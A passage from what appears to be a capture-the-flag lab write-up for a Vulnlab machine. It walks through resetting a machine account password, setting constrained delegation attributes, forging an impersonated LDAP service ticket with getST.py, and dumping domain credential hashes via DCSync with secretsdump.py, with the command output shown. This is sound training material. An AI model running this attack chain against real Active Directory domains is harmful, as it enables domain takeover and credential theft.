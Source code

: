 ```
changepasswd.py redelegate/'fs01$'@redelegate.vl -newpass 'Start123!' -altuser redelegate/helen.frost -reset -altpass 'Start123!' -debug

[*] Setting the password of redelegate\fs01$ as redelegate\helen.frost
[*] Connecting to DCE/RPC as redelegate\helen.frost
[+] Successfully bound to SAMR
[+] Sending SAMR call hSamrSetNTInternal1
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

Additionally, we need to use our `SeEnableDelegationPrivilege` to make the necessary changes:

```
Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
```

As described earlier we set `msDS-AllowedToDelegateTo` to the resource we want to control (ldap on the domain controller in order to perform a dcsync) and the `TrustedToAuthForDelegation` flag. 

Now we can use the credentials of the fs01 machine account to request a service ticket as any user (here the dc itself) to the dc:

```
getST.py redelegate.vl/fs01\$:'Start123!' -spn ldap/dc.redelegate.vl -impersonate dc

[*] Getting TGT for user
[*] Impersonating dc
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in dc.ccache
```

Since this is a ticket for ldap, it allows us to perform dcsync:

```
export KRB5CCNAME=dc.ccache
secretsdump.py -k -no-pass dc.redelegate.vl -dc-ip 10.10.100.3

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:***:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:***:::
Christine.Flanders:1104:aad3b435b51404eeaad3b435b51404ee:***:::
...
```

With the admin hash we can now connect to the DC and read the final flag. If you want to try out the machine, join [Vulnlab](https://www.vulnlab.com/) :)

## Resources
